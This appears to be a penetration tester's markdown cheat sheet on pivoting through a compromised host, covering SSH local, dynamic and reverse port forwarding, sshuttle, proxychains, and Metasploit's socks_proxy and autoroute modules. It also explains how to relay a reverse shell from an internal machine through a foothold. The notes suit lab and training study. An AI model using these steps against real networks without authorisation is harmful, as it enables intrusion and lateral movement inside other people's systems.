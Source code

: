 - `ssh -L [lport]:localhost:[rport] user@IP`
	- Both machines will encapsulate their traffic using ssh port 22
	- `lport` is the listening port on our machine that we want to receive the traffic to and send traffic from
	- `rport` is the port on the target machine that we want the traffic from
	- You can execute multiple of these in one command by repeating the `-L` flag with new arguments.
	- Ex. forwarding both MySQL and HTTP from target to our machine: `ssh -L 1234:localhost:3306 -L 8080:localhost:80 user@IP` 
- To confirm the tunneling, `nmap -sV -p1234 localhost` 
- use `-N` to skip the shell if you're just port forwarding

### SOCKS Tunneling with SSH

`Sshuttle` is a Python tool that removes the need for proxychains.
- `sudo sshuttle -r victim@IP 172.16.5.0/23 -v`
	- This command routes traffic to the listed address range through the victim host connection.

- For pivoting from a foothold to an internal host
- `ssh -D 9050 user@IP`
	- `-D` enables dynamic port forwarding
- `/etc/proxychains.conf`
	- `#defaults set to "tor" \ socks4 127.0.0.1 9050`
- Now, running `proxychains [tool]` it will route all traffic to port 9050, where ssh is listening and forwarding through the foothold host
	- NOTE for nmap: You can only use **full TCP connect scans** with proxychains because it can't use partial packets.
	- May also need to disable ping probe
- Example tools to use over socks tunnel:
	- You can also start `proxychains msfconsole` to use metasploit over our tunnel
	- `proxychains xfreerdp`

#### With `metasploit`
- Once you have a meterpreter shell, `use auxiliary/server/socks_proxy`
	- set `srvport` to 9050 (from `proxychains.conf`)
	- set `srvhost` to 0.0.0.0
	- set version to same version from `proxychains.conf` (usually 4a)
	- `jobs` to verify it's running
- now use `post/multi/manage/autoroute` to route traffic through the meterpreter session
	- set `session` 
	- set `subnet` to internal subnet on pivot machine
- instead of the module you can also `run autoroute -s 172.16.5.0/23` from the meterpreter shell
	- `run autoroute -p` to verify the routing table is correct
- You can also portforward with the meterpreter session. If you want to learn that go visit the module again.


### Reverse Port Forward with SSH

- First, get the shell payload on the internal host. You can use `scp` to get it on the pivot host, and then another kind of transaction such as HTTP server to get it to the internal host.
	- Make sure your payload is set to connect to the **pivot hosts** IP and port.
- Configure ssh tunnel with `-R` to forward traffic from the internal IP address of the pivot host:
	- `ssh -R [internal_IP_of_foothold]:9999:0.0.0.0:8000 -vN`
	- In this case, our reverse shell is being caught on port `9999` of the foothold host, and it should be received by our listener on `8000`
	- When establishing the ssh tunnel, use `-vN` for verbosity and to not prompt the login shell.

